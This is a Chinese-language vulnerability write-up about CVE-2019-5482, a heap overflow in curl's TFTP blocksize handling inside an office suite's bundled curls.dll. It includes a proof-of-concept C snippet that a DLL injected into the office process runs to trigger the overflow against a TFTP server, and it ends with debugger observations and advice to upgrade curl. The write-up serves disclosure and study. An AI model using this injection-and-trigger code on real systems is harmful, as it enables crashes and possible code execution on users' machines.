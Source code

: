 > 原文链接: https://www.anquanke.com//post/id/216715 


# 某办公软件curls共享库堆溢出漏洞


                                阅读量   
                                **124599**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t015099993f9d8c15cf.jpg)](https://p4.ssl.qhimg.com/t015099993f9d8c15cf.jpg)



## 漏洞说明

产品：某办公软件 校园版

文件：curls.dll(7.64.1.0)

漏洞类型：堆溢出

漏洞函数：0x10042f25、0x10043744



## 漏洞分析

curl官方于2019年确认了该漏洞，同时分配了cve-2019-5482编号。该漏洞是由于客户端在设置TFTP协议的blocksize参数不当，设置了小于默认值的blocksize，这使得在后续接受服务端数据时产生堆溢出。存在漏洞的源代码位于curl库中的tftp.c中，如下：

[![](https://p0.ssl.qhimg.com/t018302ccd158e54a42.png)](https://p0.ssl.qhimg.com/t018302ccd158e54a42.png)

当用户设置了blksize后，会在首次创建连接时重新为存放服务端数据的数据指针state-&gt;rpacket.data创建对应大小的堆块，但是在接收服务端数据时，要拷贝的数据大小是默认的512，如图：

[![](https://p0.ssl.qhimg.com/t01634c32fe9097edf3.png)](https://p0.ssl.qhimg.com/t01634c32fe9097edf3.png)

[![](https://p0.ssl.qhimg.com/t01de6ff43350e6dfb7.png)](https://p0.ssl.qhimg.com/t01de6ff43350e6dfb7.png)

因此如果服务端发送了超长的数据包，就会产生堆溢出。

在该办公软件的curls.dll中存在漏洞的代码如下：

[![](https://p4.ssl.qhimg.com/t01073bf57f3fa43c6b.png)](https://p4.ssl.qhimg.com/t01073bf57f3fa43c6b.png)

[![](https://p4.ssl.qhimg.com/t01892229a923783b9a.png)](https://p4.ssl.qhimg.com/t01892229a923783b9a.png)

在该办公软件应用中，默认加载了该动态库，主要用于网络传输、访问、下载文件等。目前尚未找到直接攻击面比如通过打开文件来直接触发该漏洞，只能通过进程注入的方式调用curls.dll的内部函数来触发该漏洞。



## 漏洞复现

需要编写独立的dll程序来在该办公软件进程空间内部获取curls.dll的句柄，进而得到特定的导出函数，如`curl_easy_init`、`curl_easy_setopt`、`curl_easy_perform`、`curl_easy_cleanup`。

随后在远端监听udp 69端口，并将一个大文件指向该端口用于传输首次的tftp协议交互内容，在win7上通过创建远程线程的方式让该办公软件加载我们编写好的dll即可触发该漏洞。代码如下：

```
HANDLE curldll = GetModuleHandleA("curls.dll");
const char* testftpurl = "tftp://192.168.44.147/test.txt";
typedef CURLcode (myeasycurl)(CURL* data, CURLoption tag,...);
typedef void* curlinit(void);
typedef CURLcode curleasyperform(CURL* data);
typedef void curleasycleanup(CURL* data);
curlinit* myinit;
myeasycurl* mycurl;
curleasyperform* myperform;
curleasycleanup* mycleanup;
mycurl = (myeasycurl*)GetProcAddress((HMODULE)curldll, "curl_easy_setopt");
myinit = (curlinit*)GetProcAddress((HMODULE)curldll, "curl_easy_init");
myperform = (curleasyperform*)GetProcAddress((HMODULE)curldll, "curl_easy_perform");
mycleanup = (curleasycleanup*)GetProcAddress((HMODULE)curldll, "curl_easy_cleanup");
CURL* curl;
CURLcode res;
curl = (CURL*)myinit();
mycurl(curl,CURLOPT_URL,testftpurl);
mycurl(curl, CURLOPT_TFTP_BLKSIZE, 20);
res = myperform(curl);
mycleanup(curl);
```

接下来利用windbg附加***office.exe程序，利用注入工具将我们的dll加载到***office中，触发tftp请求，随后产生如下错误：

[![](https://p1.ssl.qhimg.com/t01d028a8965410bd90.png)](https://p1.ssl.qhimg.com/t01d028a8965410bd90.png)

错误类型如下：

[![](https://p4.ssl.qhimg.com/t0174de8038e6dc9cad.png)](https://p4.ssl.qhimg.com/t0174de8038e6dc9cad.png)

可以看出是堆相关的错误，由于堆溢出造成了已经free的堆的头部遭到了破坏，而在申请堆时会对堆头进行检查，如果检查没有通过则会抛出异常，最终导致应用程序崩溃，如果是经过精心构造的数据，也可能会造成任意代码执行。

在相关的函数下断后，观察申请到的堆块如下：

[![](https://p1.ssl.qhimg.com/t01052457b70e4658e4.png)](https://p1.ssl.qhimg.com/t01052457b70e4658e4.png)

堆块的大小为50个字节，接收数据后如下：

[![](https://p1.ssl.qhimg.com/t01c23791237ad1510a.png)](https://p1.ssl.qhimg.com/t01c23791237ad1510a.png)

已经将其它堆的内容覆盖掉，在后续堆管理器对被覆盖的堆进行操作时就可能触发崩溃。



## 修复建议

直接升级到curl官方的最新版，因为该版本下还有多个高危漏洞。



## 漏洞演示

[https://www.bilibili.com/video/BV1TK4y1a7XX/](https://www.bilibili.com/video/BV1TK4y1a7XX/)
